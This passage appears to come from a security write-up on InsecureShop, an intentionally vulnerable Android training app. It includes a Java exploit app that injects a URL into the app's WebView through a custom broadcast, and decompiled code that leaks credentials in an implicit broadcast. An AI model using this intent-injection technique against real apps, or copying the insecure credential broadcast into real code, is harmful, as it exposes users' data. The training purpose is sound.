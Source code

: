 We can also create an exploit app with the following code:

```java
public class YourActivity extends AppCompatActivity {

    private Context context; // Make sure to initialize this context appropriately
    public void insecureBroadcast(View view) {
        // Create an Intent to start the activity
        Intent intent = new Intent();
        intent.setClassName("com.insecureshop", "com.insecureshop.AboutUsActivity");
        startActivity(intent);

        // Delay the broadcast by 1 second
        new Handler(Looper.getMainLooper()).postDelayed(new Runnable() {
            @Override
            public void run() {
                delayedBroadcast();
            }
        }, 1000);
    }

    private void delayedBroadcast() {
        // Create an Intent for the broadcast
        Intent WebViewintent = new Intent("com.insecureshop.CUSTOM_INTENT");
        WebViewintent.putExtra("web_url", "https://itsfading.github.io");
        
        // Send the broadcast
        if (context != null) {
            context.sendBroadcast(WebViewintent);
        }
    }
}
```

## **Use of Implicit intent to send a broadcast with sensitive data**

> **Description:** The use of Implicit intent can allow third-party apps to steal credentials.

In the same activity as before, `AboutUsActivity` there is the use of a dynamic broadcast receiver:

```java
 public final void onSendData(View view) {
        Intrinsics.checkParameterIsNotNull(view, "view");
        String userName = Prefs.INSTANCE.getUsername();
        if (userName == null) {
            Intrinsics.throwNpe();
        }
        String password = Prefs.INSTANCE.getPassword();
        if (password == null) {
            Intrinsics.throwNpe();
        }
        Intent intent = new Intent("com.insecureshop.action.BROADCAST");
        intent.putExtra("username", userName);
        intent.putExtra("password", password);
        sendBroadcast(intent);
        TextView textView = (TextView) _$_findCachedViewById(C0893R.C0896id.textView);
        Intrinsics.checkExpressionValueIsNotNull(textView, "textView");
        textView.setText("InsecureShop is an intentionally designed vulnerable android app built in Kotlin.");
    }
```
